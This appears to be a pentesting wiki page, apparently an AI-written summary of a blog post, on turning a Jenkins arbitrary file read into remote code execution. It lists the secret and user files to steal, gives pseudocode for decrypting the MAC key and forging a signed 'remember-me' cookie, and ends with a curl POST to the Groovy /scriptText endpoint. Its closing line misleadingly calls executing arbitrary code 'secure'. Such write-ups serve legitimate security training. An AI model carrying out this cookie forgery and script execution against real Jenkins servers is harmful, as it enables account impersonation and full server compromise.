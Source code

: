# Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" must be enabled (default setting).
- **Access Levels:** Attacker needs Overall/Read permissions.
- **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  - **Username**
  - **User seed**
  - **Timestamp**
  - **Password hash**

**Secret Key Extraction**

- Extract cryptographic keys used for signing the cookie:
  - **Secret Key:** `$JENKINS_HOME/secret.key`
  - **Master Key:** `$JENKINS_HOME/secrets/master.key`
  - **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

  ```javascript
  tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Adds one hour to current time
  ```

- **Concatenate Data for Token:**

  ```javascript
  token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
  ```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

  ```javascript
  key = toAes128Key(masterKey)  // Convert master key to AES128 key format
  decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
  if not decrypted.hasSuffix("::::MAGIC::::")
      return ERROR;
  macKey = decrypted.withoutSuffix("::::MAGIC::::")
  ```

**Signature Computation**

- **Compute HMAC SHA256:**

  ```javascript
  mac = HmacSHA256(token, macKey) // Compute HMAC using the token and MAC key
  tokenSignature = bytesToHexString(mac) // Convert the MAC to a hexadecimal string
  ```

**Cookie Encoding**

- **Generate Final Cookie:**

  ```javascript
  cookie = base64.encode(
    username + ":" + tokenExpiryTime + ":" + tokenSignature
  ) // Base64 encode the cookie data
  ```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
  - Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  - Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

  ```bash
  curl -X POST "$JENKINS_URL/scriptText" \
  --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
  --header "Jenkins-Crumb: $CRUMB" \
  --header "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "script=$SCRIPT"
  ```

  - Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{{#include ../../banners/hacktricks-training.md}}




